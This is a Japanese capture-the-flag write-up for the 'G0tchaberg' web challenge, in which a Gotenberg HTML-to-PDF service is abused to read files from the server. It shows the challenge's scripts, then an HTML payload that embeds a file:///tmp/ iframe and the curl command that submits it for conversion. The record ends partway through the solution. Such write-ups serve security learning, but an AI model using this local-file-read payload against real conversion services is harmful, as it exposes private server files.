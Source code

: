 # G0tchaberg:web:278pts
Can you steal the flag, even though I'm using the latest version of [https://github.com/gotenberg/gotenberg](https://github.com/gotenberg/gotenberg)?  
Individual instances can be started at the link below:  

[https://lab1.kalmarc.tf/](https://lab1.kalmarc.tf/)  

[g0tchaberg.zip](g0tchaberg.zip)  

# Solution
インスタンサーとソースが渡される。  
Gotenbergなる、各種ドキュメントをpdfに変換するAPIが動いているようだ。  
初めに、与えられたソースファイルの内容を確認する。  
フラグがどこにあるか探すと、entrypoint.shに以下の記述が見られた。  
```sh
#!/bin/sh

while true; do
    curl -s 'http://gotenberg:3000/forms/chromium/convert/html' --form 'files=@"index.html"' -o ./output.pdf
    sleep 5
done
```
5sごとにhtmlファイルを投げ、pdfへ変換しているようだ。  
index.htmlの中身は以下の通りであった。  
```html
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Flag</title>
</head>
<body>
	<h1>Very private information!</h1>
    <h2>kalmar{test_flag}</h2>
</body>
</html>
```
フラグが含まれている。  
つまり5sごとに変換のため投げられるindex.htmlもしくは変換後のoutput.pdfを盗み出せということのようだ。  
この手のものはサーバ内部のファイルを読み取れることが多いので、`iframe`で`file://`を埋め込んだhtmlをpdfへ変換する手法をとる。  
ローカルでサービスを立ち上げて様々なファイルやディレクトリの読み取りを試していると、どうやら`/tmp/`下だけが読み取れるようだ(制限により`/etc/`や`/proc/`などは読み取れない)。  
以下のようなtmp.htmlを投げる。  
```html
<html lang="en">
<head>
    <title>Satoki</title>
</head>
<body>
    <iframe src="file:///tmp/" width="1000" height="300"></iframe>
</body>
</html>
```
```bash
$ curl -s 'http://localhost:8642/forms/chromium/convert/html' --form 'file=@tmp.html;filename=index.html' -o ./output.pdf
```
